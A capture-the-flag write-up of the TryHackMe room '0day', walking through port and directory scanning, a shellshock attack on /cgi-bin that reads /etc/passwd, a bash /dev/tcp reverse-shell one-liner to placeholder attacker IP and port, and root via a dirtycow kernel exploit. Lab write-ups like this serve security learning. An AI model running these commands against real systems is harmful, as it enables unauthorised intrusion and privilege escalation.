










0day (THM) Write-up

  

This is new box from [Try Hack Me](https://tryhackme.com/room/0day) which was rated as a medium box.  
To be honest, for me this box was more like an easy box.

## Enumeration
Let's start by scaning the box for open ports using nmap.
**Command:** `nmap -A $IP`

We can se from the above result that there are only 2 open ports:
**- port 22 SSH**
**- port 80 HTTP**

Visiting the port 80, we can't get to much information from it, just some link for different socials.

Let's start a directory scaning using gobuster.
**Command:** `gobuster dir -u $IP -w /path/to/wordlist/ -x extension type`

Except the 403 result, we have some interesting directories:
**- /admin**
**- /cgi-bin**
**- /js**
**- /css**
**- /img**
**- /uploads**
**- /backup**
**- /robots.txt**
**- /secret**

As expected,the robots.txt file won't help us.

On the **/backup** page we can find a RSA key used for SSH login.

I found the passphrase for the RSA key by using JohnTheRipper, but i'm pretty sure that this is a rabbithole.

On the **/secret** page, the creator leaves the same clue as the one on the box page: ***a turtle***.

For those that don't know, there is an exploit called **shellshock** which is usually represented by a turtle or a turtle shell, so this for me was clear on what to do next.

But let's say we didn't knew what that turtle represent or why was there. The next thing to do was to brute force the other directories. The only directory that would have given us a result would be the **/cgi-bin** directory, as shown bellow:

**Command:** `gobuster dir -u $IP/cgi-bin/ -w /path/to/wordlist/ -x sh,cgi`
This time is used **.sh** and **.cgi** as extensions.

Now if would not know what to do next, googling for **/cgi-bin exploit** would have put you on the right path.
Let's see if there is a shellshock vulnerability. For this i used an automated tool, but i would recommend you to test it manually so you can understand the exploit.

The tool used by me wall called **shocker** and you can find it on github.
As show in the image below i tried to read **/etc/passwd**, and it worked.
**Command type:** `/bin/cat /etc/passwd`

## Foothold
Shell as **www-data**

Now it's time to get a shell on the box. Using the same exploit i could get a reverse shell
**Command:** `/bin/bash -c '/bin/bash -i >& /dev/tcp/$YOUR IP/$YOUR PORT 0>&1'`
Note: To get a stable shell use the next commmands:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
press **CTRL+Z** then type `stty raw -echo` and finally type `fg`
`export TERM=xterm`

## Privilege escalation
If you use **linpeas** and read the results, you can clearly see what's the path to exploit this box to get root: **kernel exploit**

This is an old kernel **3.13.0-32-generic**. If you would access the link that linpeas suggests for kernel exploit, you would find a github link for different variation of the **dirtycow** exploit.
**Link:** [https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

Shell as **root**
I used the the **cowroot** one, which worked for me but was unstable. I didn't tried other variants of the exploit because i was able to read the root.txt flag.

## Flags
